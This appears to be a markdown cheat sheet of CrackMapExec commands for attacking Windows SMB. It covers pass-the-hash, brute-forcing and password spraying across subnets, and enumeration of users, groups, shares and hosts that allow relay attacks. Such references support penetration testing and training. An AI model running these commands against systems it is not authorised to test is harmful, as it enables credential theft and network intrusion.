 ### Local Account
```bash
crackmapexec smb 192.168.215.138 -u 'Administrator' -p 'PASSWORD' --local-auth
```

### Pass-the-Hash
```bash
crackmapexec smb 172.16.157.0/24 -u administrator -H 'LMHASH:NTHASH' --local-auth
crackmapexec smb 172.16.157.0/24 -u administrator -H 'NTHASH'
```

### Bruteforcing & Password Spraying
```bash
crackmapexec smb 192.168.100.0/24 -u "admin" -p "password1"
crackmapexec smb 192.168.100.0/24 -u "admin" -p "password1" "password2"
crackmapexec smb 192.168.100.0/24 -u "admin1" "admin2" -p "P@ssword"
crackmapexec smb 192.168.100.0/24 -u user_file.txt -p pass_file.txt
crackmapexec smb 192.168.100.0/24 -u user_file.txt -H ntlm_hashFile.txt
```

## Enumeration

### Users

#### Enumerate Users
```bash
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --users
```

#### RID Bruteforce for Users
```bash
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --rid-brute
```

#### Domain Groups
```bash
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --groups
```

#### Local Users
```bash
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --local-users
```

### Hosts

#### Relayable Hosts (SMB Signing Disabled)
```bash
crackmapexec smb 192.168.1.0/24 --gen-relay-list output.txt
```

#### Enumerate Shares
```bash
crackmapexec smb 192.168.215.138 -u 'user' -p 'PASSWORD' --local-auth --shares
```
